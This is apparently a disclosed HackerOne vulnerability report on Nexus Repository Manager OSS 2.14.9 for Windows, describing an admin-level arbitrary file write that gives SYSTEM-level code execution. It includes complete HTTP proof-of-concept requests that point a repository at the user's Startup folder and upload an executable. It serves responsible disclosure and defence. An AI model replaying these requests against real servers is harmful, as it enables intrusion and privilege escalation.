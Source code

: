 # Unrestricted File Upload Leading to Remote Code Execution

## Report Details
- **Report ID**: 683965
- **URL**: https://hackerone.com/reports/683965
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-08-28T18:42:12.237Z
- **Disclosed**: 2019-10-30T20:05:22.210Z

## Reporter
- **Username**: hland
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: central-security-project

## Vulnerability Information
### Description
As an administrator user it is possible to create files and directories in any location on the file system of the server. This can be abused to write files to any sensitive location on the Windows file system because the Nexus process runs with SYSTEM privileges. This can allows an attacker that is able to break into the Nexus Repository Manager to elevate privileges to SYSTEM on the server and use it as pivoting point for lateral movement during an attack.

In the proof-of-concept I upload a PE executable file to the user's Windows Startup Folder, achieving remote code execution the next time the user logs in. In my example simply executing calc.exe. 

The tests were done with an installation of Nexus Repository Manager OSS 2.14.9-01 on Microsoft Windows Server 2016 Datacenter 10.0.14393 N/A Build 1439.

### Additional Details
Unfortunately I was unable to dig up the functions handling these HTTP requests.

## Steps to reproduce:
1. Create a repo and set the "overrideLocalStorageUrl" to a folder two levels below the one you want to write files to.

`POST /nexus/service/local/repositories`

2. Upload a file to a directory of your choice by manipulating the "g", "a" and "v" parameters

`POST /nexus/service/local/artifact/maven/content`


### Proof-Of-Concept

1. Create repository:

```
POST /nexus/service/local/repositories HTTP/1.1
Host: nexus-host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json,application/vnd.siesta-error-v1+json,application/vnd.siesta-validation-errors-v1+json
X-Nexus-UI: true
Content-Length: 443
Connection: close
Cookie: NXSESSIONID=1a76b0cd-7fb1-4095-9671-2365226df770

{"data":{"repoType":"hosted","id":"5000","name":"MyTestRepo","writePolicy":"ALLOW_WRITE_ONCE","browseable":true,"indexable":true,"exposed":true,"notFoundCacheTTL":1440,"repoPolicy":"RELEASE","provider":"maven2","providerRole":"org.sonatype.nexus.proxy.repository.Repository","overrideLocalStorageUrl":"file:/c:/Users/myuser/Appdata/Roaming/Microsoft/Windows/Start Menu","downloadRemoteIndexes":false,"checksumPolicy":"IGNORE"}}

HTTP/1.1 201 Created
Date: Wed, 28 Aug 2019 16:58:53 GMT
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Server: Nexus/2.14.9-01 Noelios-Restlet-Engine/1.1.6-SONATYPE-5348-V8
Content-Type: application/json; charset=UTF-8
Content-Length: 638
Connection: close

{"data":{"contentResourceURI":"http://<redacted>/nexus/content/repositories/5000","id":"5000","name":"MyTestRepo","provider":"maven2","providerRole":"org.sonatype.nexus.proxy.repository.Repository","format":"maven2","repoType":"hosted","exposed":true,"writePolicy":"ALLOW_WRITE_ONCE","browseable":true,"indexable":true,"notFoundCacheTTL":1440,"repoPolicy":"RELEASE","downloadRemoteIndexes":false,"overrideLocalStorageUrl":"file:/c:/Users/myuser/Appdata/Roaming/Microsoft/Windows/Start Menu","defaultLocalStorageUrl":"file:/C:/Users/myuser/Desktop/nexus-2.14.9-01-bundle/sonatype-work/nexus/storage/5000"}}
```

2. Upload file

```
POST /nexus/service/local/artifact/maven/content HTTP/1.1
Host: nexus-host
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------103850373015325909411337083269
Content-Length: 33250
Connection: close
Cookie: NXSESSIONID=1a76b0cd-7fb1-4095-9671-2365226df770
Upgrade-Insecure-Requests: 1

-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="r"

5000
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="g"

Programs
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="a"

Startup
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="v"

.
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="p"

jar
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="c"


-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="e"

exe
-----------------------------103850373015325909411337083269
Content-Disposition: form-data; name="file"; filename="calc.exe"
Content-Type: text/html

<insert_content_of_calc.exe>
-----------------------------103850373015325909411337083269--


HTTP/1.1 201 Created
Date: Wed, 28 Aug 2019 17:05:47 GMT
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
Server: Nexus/2.14.9-01 Noelios-Restlet-Engine/1.1.6-SONATYPE-5348-V8
Content-Type: text/html;charset=UTF-8
Content-Length: 77
Connection: close

{"groupId":"Programs","artifactId":"Startup","version":".","packaging":"jar"}
```

## Patch
There are multiple ways to fix this:

1. Make it the default to run Nexus Repository Manager as a less privileged user. 
2. Restrict the locations on the filesystem that Nexus Repository Manager can write to.

## Additional details

* OS Name:                   Microsoft Windows Server 2016 Datacenter
* OS Version:                10.0.14393 N/A Build 14393

* java version "1.8.0_211"
Java(TM) SE Runtime Environment (build 1.8.0_211-b12)
Java HotSpot(TM) 64-Bit Server VM (build 25.211-b12, mixed mode)

# Wrap up
- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

My reaction when uploading files to any location on the filesystem:
https://66.media.tumblr.com/463873f43d1b6c3ae34ab817fe92e0a2/tumblr_inline_omgbhw31qa1qar3or_500.gif

## Impact

The attacker could run arbitrary code on the server as the SYSTEM user.

## Attachments
No attachments
